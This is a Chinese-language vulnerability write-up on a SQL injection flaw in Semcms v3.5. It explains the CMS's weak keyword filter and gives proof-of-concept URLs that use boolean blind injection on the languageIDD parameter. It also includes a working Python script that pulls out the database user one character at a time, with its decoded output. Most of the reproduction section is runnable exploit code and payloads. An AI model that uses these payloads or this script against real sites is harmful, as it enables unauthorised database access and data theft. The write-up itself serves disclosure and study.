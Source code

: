Semcms v3.5 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.5

三、复现过程
------------

### 漏洞分析

在分析过程中看到网上已经有人发现semcms
V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

    1 <?php
    2 include_once  'Include/web_inc.php';
    3 include_once  'Templete/default/Include/Function.php';
    4 $file_url="";
    5 include_once  'Templete/default/Include/default.php';
    6 ?>
     1 //网站logo
     2 
     3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
     4 
     5 // 控制文字标签 更改 获取的 语种 id
     6 
     7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
     8 
     9 if(!empty($Language)){
    10 
    11       //网站SEO设定
    12 
    13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
    14       $row=mysqli_fetch_array($query);
    15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
     1 // 防sql入注
     2 
     3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
     4  
     5 foreach ($GetArray as $value){ //get
     6     
     7     verify_str($value);
     8   
     9 }
    10 
    11 function inject_check_sql($sql_str) {
    12   
    13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
    14 } 
    15 
    16 function verify_str($str) { 
    17  
    18    if(inject_check_sql($str)) {
    19    
    20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
    21     } 
    22  
    23     return $str; 
    24 }
     1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
     2       $data = str_replace("<script", "", $data);
     3       $data = str_replace("</script>", "", $data);
     4       $data = str_replace("%", "percent", $data);
     5       $data = trim($data);
     6       $data = stripslashes($data);
     7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
     8       return $data;
     9 
    10    }

　　可以看到第16行的函数verify\_str()调用inject\_check\_sql()用来过滤危险字符，函数test\_input用来过滤xss。其中可以明显地看到第11行的函数inject\_check\_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常

![](resource/Semcmsv3.5sql注入漏洞/media/rId26.png)

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误

![](resource/Semcmsv3.5sql注入漏洞/media/rId27.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

    #用python3版本
    import requests
    url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
    print("Testing url: " + url)
    #十进制数33-126间的ascii hex值
    payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
                "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
                "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
                "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
                "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
                "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
                "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
                "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
                "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
                "0x7b","0x7c","0x7d"
               ]
    user = ""
    for b in range(len(payload)):
        for a in payload:
            #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
            sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
            res = requests.get(url + sql_payload_user).text
            res1 = requests.get(url).text
            if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
                user = user + a
                print(" ")
                print("[*]info : 0x" + user.replace("0x","").upper())
                break
            else:
                print('\r',"Match failed,Next.....",end='')

测试结果如下图

![](resource/Semcmsv3.5sql注入漏洞/media/rId28.png)

解码ascii
hex值0x726F6F74406C6F63616C686F7374为root\@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

参考链接
--------

> <https://www.cnblogs.com/st404/p/10087191.html>
